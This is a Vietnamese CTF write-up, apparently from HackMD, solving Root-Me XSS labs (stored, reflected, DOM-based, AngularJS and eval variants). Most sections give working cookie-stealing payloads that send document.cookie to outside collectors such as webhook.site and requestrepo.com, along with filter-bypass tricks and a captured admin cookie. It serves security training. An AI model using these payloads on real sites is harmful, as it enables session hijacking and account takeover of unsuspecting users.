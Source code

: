 # XSS - Stored 1
![image](https://hackmd.io/_uploads/HJvufqENp.png)
- Test thử bằng đoạn script đơn giản và nó thành công:

![image](https://hackmd.io/_uploads/Hkv6z9NNp.png)
![image](https://hackmd.io/_uploads/r1qTGqV46.png)
- Để lấy cookie ta dùng **document.cookie**, nhưng vấn đề là sau khi lấy được cookie thì làm sao gửi về cho mình

- Sauu một hồi tìm hiểu mình quyết định xài thẻ **img **– trong html thì khỏi cần đóng thẻ </img>. Và mình sẽ gửi request này đến [requestb.in](https://pipedream.com/@tranminhtuan160403/projects/proj_0ps9Xa/requestbin-p_95CVx3o/build). Đoạn mã script sẽ là như sau:`<script>document.write("<img src='https://k4pazc4w.requestrepo.com?="+document.cookie+"'>");</script>`
- Load lại trang và mình nhận được các reponse:

![image](https://hackmd.io/_uploads/r1PZVqNN6.png)

-`cookie:NkI9qe4cdLIO2P7MIsWS8ofD6`

## XSS DOM Based - Introduction
![image](https://hackmd.io/_uploads/BkZokY4BT.png)
- Vào bài lab mình có thử 1 vài payload như alert(123) nhưng không thành công. Vì đề bài là dom based nên mình sẽ tiến hành mở dev tool đọc source, và 1 đoạn mã script đập ngay vào mắt:
![image](https://hackmd.io/_uploads/rJCbeKVrp.png)
- Mục đích của đoạn code này là lấy input mình nhập vào và so sánh với một số mà hệ thống sinh radom để thực hiện các đoạn code tiếp theo trong vòng if else nhưng nó không có ý nghĩa gì. Điều làm mình chú ý ở đây là biến number lấy dữ liệu mình nhập vào và được gắn trực tiếp vào nó và không có 1 dấu hiệu gì là nó bị mã hóa nên mình đã thử lại với payload `';alert(123);//` khi đó biến number sẽ thành `var number = '';alert(123);//'` từ đó alert(123) sẽ được thực hiện.
![image](https://hackmd.io/_uploads/B1JNWtEST.png)
- Giờ muốn lấy được cookie của admin mình cần đến 1 địa chỉ để chứa các phản hồi có lỗi Dom based XSS được đoạn mã script của mình chuyển hướng tới đó. Ở đây mình sẽ sử dụng [webhook](https://webhook.site/). Và payload là:
 ```
 http://challenge01.root-me.org/web-client/ch32/?number=';window.location.href=`https://webhook.site/fdc65cb1-88fc-40a2-b4f4-b6fd09a593d5?cookie=${document.cookie}`;//
 ```
 ![image](https://hackmd.io/_uploads/SJ4AQtEHT.png)





## XSS DOM Based - AngularJS
![image](https://hackmd.io/_uploads/rkSjtf7Ha.png)
- Đề bài có liên quan đến AngularJs nên mình biết nó dùng {{}} để thực thi đoạn mã. Kiểm chứng điều đó và mình có được kết quả như mong muốn:

![image](https://hackmd.io/_uploads/ryFKcG7r6.png)
- Mình sẽ dùng đoạn mã `{{constructor.constructor('alert(1)')()}}`  khởi tạo trong angular để có thể thực thi đoạn mã javascript bên trong ngoặc tròn nhưng không có chuyện gì xảy ra. Vì thế mình chuyển qua kiểm tra source code thì thấy dấu `''` của mình đã bị xóa

![image](https://hackmd.io/_uploads/Sy1vjGmH6.png)

- Mã hóa thử `''` bằng encode html và thử lại:
![image](https://hackmd.io/_uploads/HyiIhf7rp.png)
- Vậy là việc bypass qua. Bây giờ mình chỉ còn cần viết payload hoàn chỉnh để lấy cookie của admin nữa là hoàn thành `{{constructor.constructor(&#x27;document.location="https://webhook.site/fdc65cb1-88fc-40a2-b4f4-b6fd09a593d5?cookie=".concat(document.cookie)&#x27;)()}}`:

![image](https://hackmd.io/_uploads/HJqNwdNHa.png)

## XSS DOM Based - Eval
![image](https://hackmd.io/_uploads/Hy06s4UBa.png)
- Vẫn là một giao diện quen thuộc lần này mình thử search thử một điều gì đó: 
![image](https://hackmd.io/_uploads/ryTgh48Ha.png)
- Có vẻ như nó đã được regex và cho phép nhập theo đúng định dạng. Thử nhập theo đúng định dạng là phép tính 2 số `1+1` và kết quả là bằng 2. Không có gì đặc biệt nên mình mở thử dev tool xem source:
![image](https://hackmd.io/_uploads/H11chVLST.png)

- hàm [eval()](https://www.w3schools.com/jsref/jsref_eval.asp) thực thi đoạn mã mà không qua bất kỳ câu lệnh nào. Mình thử thêm payload: `1=1, alert(123)` thì thấy nó có thông báo bị filter ![image](https://hackmd.io/_uploads/BkLPCDvST.png)
- Như vậy là nó đã filter `' và ngoặc ()`. Vậy nên mình đã thử payload 
```
1+1,window.location.href=`https://webhook.site/fdc65cb1-88fc-40a2-b4f4-b6fd09a593d5?cookie=${document.cookie}`
```

- Kiểm tra webhook thì nhận được sự tương tác : 
![image](https://hackmd.io/_uploads/HyveWODS6.png)
- Bây giờ mình đổi sang contact và chuyển payload thành:

```
http://challenge01.root-me.org/web-client/ch34/index.php?calculation=1%2B1,window.location.href=`https://webhook.site/fdc65cb1-88fc-40a2-b4f4-b6fd09a593d5?cookie=${document.cookie}`
```

![image](https://hackmd.io/_uploads/ByNUbOvSa.png)


## XSS - Reflected

![image](https://hackmd.io/_uploads/rJAZf_vBa.png)

- Ấn vào xem 1 đối tượng bất kỳ, thì mình có để ý trên url: ![image](https://hackmd.io/_uploads/H1pmMdwS6.png)
- Tham số p có nhận giá trị là prices, mình thử thay nó bằng đoạn mã `<script>alert(1)</script>` thì nhận được stutus 404. Mình sẽ kiểm tra mã nguồn xem điều gì đang xảy ra:

![image](https://hackmd.io/_uploads/rkdYvOvBT.png)
- Như vậy là nó lấy nhưng gì mình thêm vào ở url và thêm href của thẻ a. Mình thử thoát khỏi href `"<script>alert(1)<script>` nhưng không thành công:![image](https://hackmd.io/_uploads/HJgkZqdvSa.png)
- Thử đổi lại bằng dấu `'` ![image](https://hackmd.io/_uploads/rJaDsODHa.png)
- Vẫn không thành công, hình như `<>` bị mã hóa nên không nhận nên không nhận. Thử với 1 payload khác `' onmousemove='alert(2)'`
![image](https://hackmd.io/_uploads/ryhQJYvrT.png)
- Như vậy là mình đã chèn được 1 payload xss thành công. Bây giờ mình sẽ thực hiện gửi cookie của admin vào host của mình đã chuẩn bị trước đó: 
```
http://challenge01.root-me.org/web-client/ch26/?p=report&url=http%3A%2F%2Fchallenge01.root-me.org%2Fweb-client%2Fch26%2F%3Fp%3D%2527%2520onmousemove%3D%2527window.location.href=`https://webhook.site/fdc65cb1-88fc-40a2-b4f4-b6fd09a593d5?cookie=${document.cookie}`
```
![image](https://hackmd.io/_uploads/BJ8JMtvS6.png)
## XSS - Stored 2

![image](https://hackmd.io/_uploads/ryLE8tPB6.png)

- Mới vào bài lab thì nó cho mình 2 thẻ input để nhập tiêu đề và nội dung tin nhắn gửi đi. Mình có thử thêm 1 vài thứ gì đó thì nội dung mình thêm vào thì nó sẽ được hiển thị ở cuối trang và ở đây có 1 thứ khác biệt so với bài stored 1 là `status:invite`. Xem source thì mình không phát hiện được gì nên mình sẽ thử xem nội dung của request và respond xem có tìm được gì không:

![image](https://hackmd.io/_uploads/rJISvKwBa.png)
- Như vậy là status nó được gửi đính kèm với cookie. Mình có thắc mắc là không biết status này nó có thay đổi được ở phần cookie hay không vì thế mình đã thử thay đổi nó:

![image](https://hackmd.io/_uploads/rJNsDFPra.png)
- Ồ vậy là nó có thể thay đổi ngay ở request gửi đi. Thế thì chuyện bây giờ chỉ là tìm cách thoát khỏi class. payload:`"> <script>alert(1)</script>//`
![image](https://hackmd.io/_uploads/S1oCOKvra.png)
![image](https://hackmd.io/_uploads/HJaC_YvS6.png)
- Mọi thứ diễn ra khá thuận lợi bây giờ mình click vào admin và bắt lấy request của nó và thay đổi status của nó để nó gửi cookie về host của mình nữa là thành công:

![image](https://hackmd.io/_uploads/H1VyhtDrp.png)
![image](https://hackmd.io/_uploads/BJhk3FPS6.png)
- Có được cookie rồi thay đổi nó và vào bằng quyền administrator thôi

![image](https://hackmd.io/_uploads/HyYJpYPHT.png)
